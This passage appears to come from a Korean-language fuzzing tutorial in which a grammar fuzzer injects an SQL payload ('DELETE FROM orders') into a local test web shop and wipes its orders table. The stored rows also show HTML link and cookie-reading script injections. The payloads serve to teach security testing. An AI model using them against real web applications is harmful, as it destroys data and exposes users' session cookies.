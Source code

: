 ```python
ORDER_GRAMMAR_WITH_SQL_INJECTION = extend_grammar(ORDER_GRAMMAR, {
    "<name>": [cgi_encode("Jane', 'x', 'x', 'x'); DELETE FROM orders; --")],
})
```

```python
sql_injection_fuzzer = GrammarFuzzer(ORDER_GRAMMAR_WITH_SQL_INJECTION)
order_with_injected_sql = sql_injection_fuzzer.fuzz()
order_with_injected_sql
```

```python
"/order?item=drill&name=Jane',+'x',+'x',+'x')%3b+DELETE+FROM+orders%3b+--&email=j.doe%40example.com&city=New+York&zip=14083"
```

현재 주문은 다음과 같습니다.

```python
print(db.execute("SELECT * FROM orders").fetchall())
```

```python
[('tshirt', 'Jane Doe', 'doe@example.com', 'Seattle', '98104'), ('lockset', 'Jane Doe', 'j_smith@example.com', 'Seattle', '16631'), ('drill', 'Jane Doe', 'j.doe@example.com', '', '45732'), ('drill', 'Jane Doe', 'j,doe@example.com', 'Seattle', '45732'), ('drill', ' ', '5F @p   a ', 'cdb', '3230'), ('drill', ' m', '@@0', 'd', '9'), ('lockset', '  ', 'c@d', '_', '6'), ('lockset', ' ', 'd@_-', '2  0', '1040'), ('tshirt', 'Kb', 'm@ ', 'zy ', '13'), ('lockset', 'd', 'U @t', ' ', '4'), ('tshirt', '_ 2', '1  @ ', ' ', '30'), ('tshirt', ' ', 'a-@ ', ' W', '2'), ('lockset', 'V', '  @aUeeD', ' ', '01'), ('tshirt', 'oc', '  @ ', 'a', '25'), ('drill', '55', '3>@@5', 'L', '0'), ('tshirt', ' ', 'b t2@ ', 'E9', '54'), ('drill', 'R-', 'e@?', ' ', '5'), ('drill', '\n    Jane Doe<p>\n    <strong><a href="www.lots.of.malware">Click here for cute cat pictures!</a></strong>\n    </p>\n    ', 'j_smith@example.com', 'Seattle', '02805'), ('lockset', 'Jane Doe<script>document.title = document.cookie.substring(0, 10);</script>', 'j.doe@example.com', 'Seattle', '34506')]
```

이제 우리의 URL을 SQL injection으로 서버에 보내봅시다. 로그에서 악의적인 SQL 명령이 위에서 설계한 대로 생성되고 실행되는 것을 볼 수 있습니다.

```python
contents = webbrowser(urljoin(httpd_url, order_with_injected_sql))
```

```python
127.0.0.1 - - [18/May/2022 12:46:29] INSERT INTO orders VALUES ('drill', 'Jane', 'x', 'x', 'x'); DELETE FROM orders; --', 'j.doe@example.com', 'New York', '14083')
127.0.0.1 - - [18/May/2022 12:46:29] "GET /order?item=drill&name=Jane',+'x',+'x',+'x')%3B+DELETE+FROM+orders%3B+--&email=j.doe%40example.com&city=New+York&zip=14083 HTTP/1.1" 200 -
```

이제 모든 주문이 사라졌습니다.

```python
print(db.execute("SELECT * FROM orders").fetchall())

>>> []
```

이 효과는 매우 유명한 XKCD 만화에서도 잘 나타납니다.
